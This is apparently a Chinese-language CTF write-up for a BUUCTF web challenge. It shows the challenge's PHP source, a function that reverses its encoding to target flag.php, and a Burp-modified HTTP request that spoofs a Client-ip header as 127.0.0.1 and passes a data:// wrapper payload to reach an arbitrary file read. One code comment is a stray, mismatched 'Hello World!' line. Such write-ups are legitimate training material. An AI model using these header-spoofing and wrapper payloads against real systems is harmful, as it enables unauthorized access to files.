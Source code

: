 ```php
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

写一个逆change的函数：

```php
<?
    function reverse_change($v) {
    // 还原经过处理的字符串
    $reversed = '';

    // 从末尾开始遍历字符串
    for ($i=0;$i<strlen($v);$i++) {
        // 将 ASCII 码值减去对应的偏移量
        $reversed .= chr(ord($v[$i]) - $i * 2);
    }

    // 返回逆转后的结果
    return base64_encode($reversed);
}

$input = "flag.php"; // 假设这是经过 change 函数处理后的字符串
$output = reverse_change($input);
echo "逆转后的结果：$output"; // 输出：Hello World!
```

得到传入的file变量应该是：逆转后的结果：ZmpdYSZmXGI=

使用bp改包：

```
POST /secrettw.php?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=&file=ZmpdYSZmXGI= HTTP/1.1
Host: 83b7b311-0084-4da7-82de-b68dc1f1b3ff.node5.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Client-ip:127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
